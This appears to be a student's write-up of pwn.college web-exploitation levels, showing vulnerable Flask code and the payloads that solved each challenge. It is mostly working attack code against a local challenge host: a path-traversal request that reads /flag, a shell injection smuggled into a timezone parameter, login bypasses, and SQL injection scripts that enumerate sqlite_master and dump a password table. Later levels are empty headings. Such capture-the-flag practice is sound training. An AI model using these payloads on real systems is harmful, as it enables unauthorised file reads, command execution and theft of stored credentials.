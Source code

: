 # Level 1 - Path Traversal Vulnerability


```{md}
def level1(): 
    path = request.args.get("path") 
    assert path, "Missing `path` argument" 
    return (pathlib.Path(app.root_path) / path).read_text() 
```

```{sh}
> curl "http://challenge.localhost/?path=/flag"
pwn.college{wRT8kGDQ5IlFvynfnRpcP0mOZ7h.01N4MzMsMTOwEzW}
```

# Level 2 - Command Injection Vulnerability

```{md}
def level2():
    timezone = request.args.get("timezone", "UTC")
    return subprocess.check_output(f"TZ={timezone} date", shell=True, encoding="latin")
```

```{sh}
> requests.get('http://challenge.localhost:80/?timezone=tmp;cat /flag;').text
```

# Level 3 - Exploit Authentication row number

```{sh}

Way 1: usinf first if [NO]
> curl -X POST "http://challenge.localhost:80/?username=flag&password=*"
 
Way 2: using 2nd if
> curl "http://challenge.localhost:80/?user=1"
```

# Level 4 - Exploit SQL where clause

```{python}
import requests

url = "http://challenge.localhost:80"
data = {
        "username": '" or 1=1--',
        "password": "tmp"
}

response = requests.post(url, data = data)

print(response.text)
```

# Level 5 - Closing SQL clause with LIKE and UNION

- if `requests.arg.get()`, use `requests.post(url, params=data)`


```{python}
import requests

url = "http://challenge.localhost:80"
data = {
        "query": '"UNION SELECT password FROM users --"'
}

response = requests.post(url, params=data)

print(response.text)
```

# Level 6 - 

We don't know table name, so we have to get it first


Step 1:
```{sh}
import requests

url = "http://challenge.localhost:80"
data = {
        'query': '"UNION SELECT name from sqlite_master--'
}

res = requests.post(url, params=data)
print(res.text)
```

> table15220250475541310597

Step 2:

```{sh}
data = {
        'query': '"UNION SELECT password from table15220250475541310597--'
}
```

# Level 7 - 



```{sh}

```


# Level 8 - 

```{sh}

```

# Level 9 - 

```{sh}

```


